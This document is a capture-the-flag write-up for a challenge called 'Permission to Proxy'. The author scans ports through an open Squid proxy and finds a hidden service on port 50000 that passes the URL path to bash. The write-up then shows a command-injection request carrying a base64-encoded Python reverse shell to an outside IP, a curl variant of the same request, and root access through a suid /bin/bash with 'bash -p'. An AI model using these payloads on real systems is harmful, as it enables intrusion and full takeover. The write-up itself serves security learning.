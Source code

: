 # Permission to Proxy

A big rabbit hole ..

The challenge URL http://challenge.ctf.games:30350 is an open Squid Cache proxy server.

There are multiple ways to get a proxy server to proxy some content:
 - GET http://url.here/ HTTP/1.0 - just for HTTP traffic
 - CONNECT 1.2.3.4:443 HTTP/1.0 - usually used for raw TCP connection, e.g. for TLS

I used proxychains-ng and nmap (had issue on kali, but it worked on MacOS, not sure why) to portscan over HTTP proxy (within reason, just top 1000 ports).

That did not yield anything but 22/tcp with SSH that only allowed keys.

After a while I figured it might be just HTTP traffic and tried with spose (https://github.com/aancw/spose). With the
basic port list it did not show anything interesting.

I "extracted" the most common 1000 ports from nmap like this: `nmap -oX - --top-ports 1000 x`.
I then wrote [`nmap_top1000_ports.py`](nmap_top1000_ports.py) to make these into a full list (not just ranges).
Then I modified spoke.py into spoke-ng.py with tqdm, more ports and better detection (code != 403).

Found port 50000/tcp - but only available as `GET http://127.0.0.1:50000 HTTP/1.0`.

```shell
% cat <(echo -n "GET http://127.0.0.1:50000 HTTP/1.0\n\n") - | nc -v challenge.ctf.games 30350
```

The path part of the URL seems to somehow make it to bash and be evaluated, wtf? Does not really matter - let's use it!

We cannot use spaces though, but bash has this neat {command,param1,param2} syntax that we can use and come up with
a full reverse shell using python3 that is on the machine:

```shell
% cat <(echo -n "GET http://127.0.0.1:50000/;{which,python3}; HTTP/1.0\n\n") - | nc -v challenge.ctf.games 30350
```

Full payload is then a random Python reverse shell as base64 to not have to encode the whole damn thing:

```shell
% cat <(echo -n "GET http://127.0.0.1:50000/;{echo,'cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMS4yLjMuNCIsODApKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc='}|{base64,-d}|sh; HTTP/1.0\n\n") - | nc -v challenge.ctf.games 30350
```

That same thing can be also achieved with just curl (make sure globing parser is off though):

```shell
curl --globoff --proxy http://challenge.ctf.games:30350 'http://127.0.0.1:50000/;{which,python3};'
```

Once reverse shell is connected, look around for suid binary and find /bin/bash has a suid bit set, da fuq?!

```shell
$ find / -perm -4000 2>/dev/null

$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr 18  2022 /bin/bash
$
```

Bash will drop privileges unless started with "-p", as discussed, e.g. here:
  - https://unix.stackexchange.com/questions/451048/from-which-version-does-bash-drop-privileges

```shell
bash-4.4$ /bin/bash -p
/bin/bash -p
bash-4.4# cat /root/flag.txt
cat /root/flag.txt
flag{c9bbd4888086111e9f632d4861c103f1}
bash-4.4#
```
